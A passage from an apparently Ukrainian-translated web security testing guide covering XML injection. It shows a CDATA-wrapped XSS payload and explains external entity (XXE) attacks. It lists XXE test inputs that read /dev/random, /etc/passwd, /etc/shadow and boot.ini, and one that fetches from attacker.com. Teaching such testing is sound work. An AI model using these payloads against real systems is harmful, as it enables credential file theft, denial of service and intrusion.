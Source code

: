 `$HTMLCode = <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>`

і отримати такий вузол:
```xml
<html>
    <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>
</html>
```
Під час обробки розділювачі розділів CDATA видаляються, створюючи такий HTML-код:
```xml
<script>
    alert('XSS')
</script>
```
У результаті програма стає вразливою до XSS.


Зовнішня сутність: набір дійсних сутностей можна розширити шляхом визначення нових сутностей. Якщо визначенням сутності є URI, сутність називається зовнішньою сутністю. Якщо не налаштовано інше, зовнішні об’єкти змушують аналізатор XML отримати доступ до ресурсу, визначеного URI, наприклад, файлу на локальній машині або на віддалених системах. Така поведінка піддає програму атакам XML eXternal Entity (XXE), які можуть використовуватися для виконання відмови в обслуговуванні локальної системи, отримання неавторизованого доступу до файлів на локальному комп’ютері, сканування віддалених машин і виконання відмови в обслуговуванні віддалених систем .

Щоб перевірити наявність уразливостей XXE, можна використати такі дані:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///dev/random" >]>
        <foo>&xxe;</foo>
```
Цей тест може призвести до збою веб-сервера (у системі UNIX), якщо синтаксичний аналізатор XML спробує замінити сутність вмістом файлу /dev/random.

Інші корисні тести:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

#### Введення тегів
Після виконання першого кроку тестувальник матиме деяку інформацію про структуру документа XML. Тоді можна спробувати вставити XML-дані та теги. Ми покажемо приклад того, як це може призвести до атаки підвищення привілеїв.
